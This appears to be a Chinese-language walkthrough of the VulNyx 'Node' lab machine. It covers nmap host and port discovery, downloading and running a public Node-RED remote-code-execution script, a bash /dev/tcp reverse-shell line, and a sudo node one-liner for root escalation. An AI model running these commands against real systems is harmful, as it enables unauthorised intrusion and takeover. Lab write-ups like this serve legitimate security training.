




# 环境

来自[Vulny_Node](https://vulnyx.com/#Node)，利用已知node-red漏洞

# 信息收集

## 主机发现

```bash
nmap -sn 192.168.10.0/24
```



## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.10.14
```



## 服务详情

```bash
sudo nmap -sVC -O -p22,80,1880 192.168.10.14
```



# web渗透

## 已知node-red远程代码执行

google搜索node-red exploit，[漏洞脚本](https://gist.github.com/qkaiser/79459c3cb5ea6e658701c7d203a8c297)

```bash
wget https://gist.githubusercontent.com/qkaiser/79459c3cb5ea6e658701c7d203a8c297/raw/8966e4ee07400f16b92737161ca8df3cbfa37f91/noderedsh.py
chmod 777 noderdsh.py
python noderdsh.py http://192.168.10.14
#可以反弹shell
nc -lvvp 8888
bash -i >& /dev/tcp/192.168.10.14/8888 0>&1
```

## 提权

[node提权](https://gtfobins.github.io/gtfobins/node/)

```bash
sudo -u root /usr/bin/node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
```

